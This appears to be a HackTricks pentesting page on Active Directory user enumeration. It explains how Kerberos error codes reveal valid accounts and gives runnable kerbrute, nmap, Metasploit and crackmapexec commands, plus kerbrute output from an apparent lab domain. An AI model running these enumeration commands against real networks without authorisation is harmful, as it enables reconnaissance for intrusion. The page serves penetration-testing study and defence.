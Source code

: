 <div>
	<img src="./assets/logo_hacktricks.png" alt="HackTricks Logo" width="16" height="auto">
	<span style="color: red; font-size: 110%;"><strong>HackTricks</strong></span>
</div>

[Active Directory Methodology](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology)

[**#User enumeration**]

- **Anonymous SMB/LDAP enum:** Check the [**pentesting SMB**](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb) and [**pentesting LDAP**](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap) pages.
- **Kerbrute enum**: When an **invalid username is requested** the server will respond using the **Kerberos error** code _KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN_, allowing us to determine that the username was invalid. **Valid usernames** will illicit either the **TGT in a AS-REP** response or the error _KRB5KDC_ERR_PREAUTH_REQUIRED_, indicating that the user is required to perform pre-authentication.
```bash
./kerbrute_linux_amd64 userenum -d lab.ropnop.com --dc 10.10.10.10 usernames.txt #From https://github.com/ropnop/kerbrute/releases

nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN'" <IP>
Nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<domain>',userdb=/root/Desktop/usernames.txt <IP>

msf> use auxiliary/gather/kerberos_enumusers

crackmapexec smb dominio.es  -u '' -p '' --users | awk '{print $4}' | uniq
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`cat /usr/share/wordlists/seclists/SecLists-master/Usernames/xato-net-10-million-usernames.txt| tr '[:upper:]' '[:lower:]' | sort -u > ./xato_usernames_lowercase.txt`

`kerbrute userenum --dc 192.168.56.103 -d 'SOUPEDECODE.LOCAL' ./xato_usernames_lowercase.txt`:
```
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 09/03/24 - Ronnie Flathers @ropnop

2024/09/03 11:23:26 >  Using KDC(s):
2024/09/03 11:23:26 >   192.168.56.103:88

2024/09/03 11:25:14 >  [+] VALID USERNAME:       admin@SOUPEDECODE.LOCAL
2024/09/03 11:25:14 >  [+] VALID USERNAME:       administrator@SOUPEDECODE.LOCAL
```
